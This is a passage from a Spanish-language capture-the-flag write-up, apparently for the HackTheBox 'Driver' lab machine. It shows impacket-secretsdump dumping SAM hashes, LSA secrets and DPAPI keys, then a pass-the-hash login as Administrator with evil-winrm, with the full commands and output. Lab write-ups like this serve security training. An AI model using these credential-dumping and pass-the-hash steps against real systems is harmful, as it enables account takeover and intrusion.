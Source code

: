 - También lo podemos hacer con `impacket-secretsdump`.

```bash
➜  content impacket-secretsdump 'driver.htb/miguelito:miguel123@10.129.250.229'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xe5b3cda034afd685bc69ccd3c4e9387c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d1256cff8b5b5fdb8c327d3b6c3f5017:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
tony:1003:aad3b435b51404eeaad3b435b51404ee:dfdb5b520de42ca5d1b84ce61553d085:::
miguelito:1004:aad3b435b51404eeaad3b435b51404ee:0ddc9e8df3c8843f75a918df65dda6ee:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DefaultPassword
DRIVER\tony:liltony
[*] DPAPI_SYSTEM
dpapi_machinekey:0x68d8efd1bd3fa3ab206268f0bbc6e2a4a5e4b43e
dpapi_userkey:0x68060403e8f0276a683ad704b45dc7b850d9722f
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

- Ahora aplicamos `passathehash` y nos conectamos como el usuario `Administrator`.

```bash
➜  content evil-winrm -i 10.129.250.229 -u Administrator -H d1256cff8b5b5fdb8c327d3b6c3f5017

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
driver\administrator
```

